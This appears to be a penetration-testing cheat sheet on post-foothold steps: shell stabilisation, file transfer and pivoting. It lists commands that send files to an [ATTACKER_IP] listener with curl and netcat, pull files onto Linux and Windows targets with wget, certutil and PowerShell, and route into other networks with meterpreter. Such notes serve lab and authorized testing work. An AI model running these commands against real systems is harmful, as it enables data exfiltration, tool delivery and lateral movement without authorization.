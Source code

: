 ```yaml
---
title: 4 – Foothold
summary: Foothold step – a note for confirming foothold and adding a little persistence.
description: Foothold step – a note for confirming foothold and adding a little persistence.
---
```


# Spawn Better Shell

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm</font>**</br>
 > `Ctrl + Z`</br>
 > **<font color=red>stty raw -echo; fg</font>**</br>
 > Spawn a better shell (tab, history, ...).

# Extract File from Target

---

### CURL


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcat listener.

# Upload File on Target

---

### NETCAT


 > 
 > **<font color=red>nc -l -p </font>\[TARGET_PORT\] <font color=red>\></font> newFile**</br>
 > Run on Target.

 > 
 > **<font color=red>nc</font> \[TARGET_IP\] \[TARGET PORT\] <font color=red>\<</font> myFile**</br>
 > Run on Attacker machine. Send a file on the target.

---

### PYTHON


 > 
 > **<font color=red>python3 -m http.server</font> \[ATTACKER_PORT\]**</br>
 > Run on attacker machine (at the file location).

 > 
 > **<font color=red>wget http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/myFile</font>**</br>
 > Get the file on a Linux target machine.

 > 
 > **<font color=red>certutil.exe -urlcache -f http://</font>\[ATTACKER_IP\]:\[ATTACKER_PORT\]<font color=red>/</font>myFile myFile**</br>
 > or</br>
 > **<font color=red>powershell -c wget "http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>" -outfile "</font>myFile<font color=red>"</font>**</br>
 > or</br>
 > **<font color=red>powershell -c "(new-object System.Net.WebClient).Downloadfile('http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>', '</font>myFile<font color=red>')"</font>**</br>
 > Get the file on a Windows target machine.

---

### MIMIKATZ



---

### METERPRETER


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

# Pivoting

---

### METERPRETER

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
